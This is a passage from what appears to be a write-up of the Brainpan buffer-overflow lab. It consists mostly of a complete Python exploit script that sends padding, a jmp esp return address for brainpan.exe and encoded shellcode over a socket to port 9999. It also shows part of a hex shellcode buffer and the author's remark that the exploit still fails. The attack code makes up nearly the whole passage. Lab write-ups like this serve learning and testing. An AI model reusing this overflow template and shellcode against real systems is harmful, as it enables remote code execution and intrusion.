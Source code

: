 buf += "\x31\x38\x4d\x4b\x30\x56\x32\x45\x38\x52\x4e\x46\x4f"
buf += "\x42\x53\x32\x48\x55\x38\x36\x4f\x46\x4f\x45\x32\x45"
buf += "\x39\x4b\x39\x4a\x43\x36\x32\x30\x53\x4b\x39\x4b\x51"
buf += "\x58\x30\x34\x4b\x58\x4d\x4d\x50\x41\x41"

That looks better!  Too bad it still doesn't work.

root@kali:~/brainpan# cat fuzz.py
#!/usr/bin/python
# etFuzz.py - Xerubus' malleable fuzzer

import sys,socket

victim = '192.168.118.185'
port = 9999

junk = "\x41" * 524
eip = "\xf3\x12\x17\x31" #jmp esp 311712F3 brainpan.exe
buf = "\x90" * 13 + (
"\x89\xe2\xd9\xce\xd9\x72\xf4\x5d\x55\x59\x49\x49\x49"
"\x49\x43\x43\x43\x43\x43\x43\x51\x5a\x56\x54\x58\x33"
"\x30\x56\x58\x34\x41\x50\x30\x41\x33\x48\x48\x30\x41"
"\x30\x30\x41\x42\x41\x41\x42\x54\x41\x41\x51\x32\x41"
"\x42\x32\x42\x42\x30\x42\x42\x58\x50\x38\x41\x43\x4a"
"\x4a\x49\x36\x51\x59\x4b\x5a\x57\x4a\x43\x51\x43\x37"
"\x33\x51\x43\x33\x5a\x35\x52\x4d\x59\x4d\x31\x38\x30"
"\x55\x36\x38\x4d\x4d\x50\x4d\x43\x36\x39\x4e\x50\x47"
"\x4f\x38\x4d\x4d\x50\x30\x49\x44\x39\x4b\x49\x33\x58"
"\x4f\x30\x49\x38\x42\x56\x58\x34\x33\x58\x35\x52\x35"
"\x50\x45\x51\x4f\x4b\x4b\x39\x4b\x51\x38\x30\x43\x56"
"\x36\x30\x46\x31\x56\x33\x4e\x53\x55\x53\x4b\x39\x4d"
"\x31\x38\x4d\x4b\x30\x56\x32\x45\x38\x52\x4e\x46\x4f"
"\x42\x53\x32\x48\x55\x38\x36\x4f\x46\x4f\x45\x32\x45"
"\x39\x4b\x39\x4a\x43\x36\x32\x30\x53\x4b\x39\x4b\x51"
"\x58\x30\x34\x4b\x58\x4d\x4d\x50\x41\x41")

payload = junk + eip + buf

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
      print "[-] Connecting to " + str(victim)
      s.connect((victim, port))
      s.recv(1024)

      # Send payload
      print "[-] Sending payload.... ",
      s.send(payload)
      print "Done"

except:
      print "[-] Unable to connect to " + str(victim)
      sys.exit(0)
root@kali:~/brainpan#
